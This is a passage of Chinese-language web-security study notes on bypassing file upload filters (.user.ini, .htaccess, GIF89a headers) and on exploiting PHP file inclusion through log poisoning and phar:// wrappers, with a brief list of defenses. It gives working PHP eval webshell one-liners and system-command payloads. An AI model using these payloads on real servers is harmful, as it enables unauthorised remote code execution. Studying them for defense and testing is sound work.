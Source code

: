 漏洞利用

1. 上传.user.ini，内容为`GIF89a auto_append_file=a.k1`，利用GIF89a绕过文件内容检测
2. 上传a.k1文件，内容为`GIF89a <script language="php">eval($_POST[a]);</script>`，利用<script>标签来绕过<?内容过滤
3. 上传index.php文件，内容为`<?php 
   include_once 'a.k1';
   ?>`，包含文件a.k1，然后访问index.php并post数据`a=system("notepad");`执行命令

### .htaccess绕过

漏洞形成条件

- apache服务器
- 能够上传.htaccess文件，一般为黑名单限制。
- AllowOverride All，默认配置为关闭None。
- LoadModule rewrite_module modules/mod_rewrite.so #模块为开启状态
- 上传目录具有可执行权限。

上传.htaccess文件内容为`AddType application/x-httpd-php .png`，将png后缀文件解析为php，在1.png末尾写入`<?php @eval($_POST[123]); ?>`，上传并访问1.png，post数据`123=system("notepad");`执行命令

## 文件上传防御

- 使用白名单策略检查文件扩展名
- 上传文件的目录禁止http请求直接访问。如果需要访问，要上传到和web服务器不同的域名下，并设置该目录不解析脚本
- 上传文件的文件名和目录名由系统根据时间生成，禁止用户自定义

# 文件包含漏洞

## 代码&利用方法

```php
<?php
	$filename=$_GET['page'];
	include($filename);#如果包含出错，只会警告，不影响后续语句执行
//文件包含函数
    #require()#如果包含出错，提出致命错误，不执行后门语句
    #require_once()
    #include_once()
//文件操作函数
    #file()
    #fopen()
    #readfile()
//文件内容操作函数
    #file_get_contents()
    #file_put_contents()
?>
```

- 通过`GET /<?php @eval($_REQUEST['cmd']);?> HTTP/1.1`请求服务器后，会在服务器日志中留下记录，如果服务器日志为默认路径可以通过`?page=/var/log/error.log`来getshell
- 将一句话木马打包成zip格式后，重命名为phpinfo.jpg，上传到服务器images目录后，通过`file=phar://./images/phpinfo.jpg/getshell.php`来getshell
